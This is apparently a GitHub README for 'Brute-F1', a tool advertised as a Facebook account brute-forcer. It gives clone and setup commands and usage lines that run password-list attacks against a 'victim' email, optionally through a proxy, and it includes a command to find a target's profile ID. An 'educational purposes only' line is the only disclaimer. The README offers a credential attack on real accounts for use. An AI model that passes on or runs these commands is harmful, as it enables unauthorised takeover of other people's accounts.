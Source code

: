 <h1><p align="center">Brute-F1</p></h1>

<p align="center">Most Powerful Facebook Bruteforce Tool<br/>―――― MD Asif Hasan ――――</p>

## The Tool is for :
- Windows
- Kali Linux
- Termux
- macOs
- any Os has python(2.x, 3.x) with required modules

### Installation :

```bash
apt update && apt upgrade -y
```
```bash
apt install git -y
```
```bash
git clone https://github.com/DetaSploit/Brute-F1
```
```bash
cd Brute-F1
```
```bash
bash setup
```
```bash
python brute-f1.py
```

## Usage

  - **U can Use Victim email Or Facebook Profile Id** :
  
  - **Brute Force On Facebook Account Without proxy** :
  
  * **Command** : python brute-f1.py -t victim@gmail.com -w 10MPASS.txt
  
  - **Brute Force On Facebook Account With Proxy** :
   
    * **Command** : python brute-f1.py -t victim@gmail.com -w 10MPASS.txt -p 144.217.101.245:3129
    
    - **Get Target Facebook Profile ID** :
  
   
    * **Command** : python brute-f1.py -g https://www.facebook.com/username

## Note :
<li>Tool is Made of Educational Purposes only</li>
<li>Use It At Your Own Risk</li>


## Visitors :

![Visitor Count](https://profile-counter.glitch.me/Toxic-Noob/count.svg)

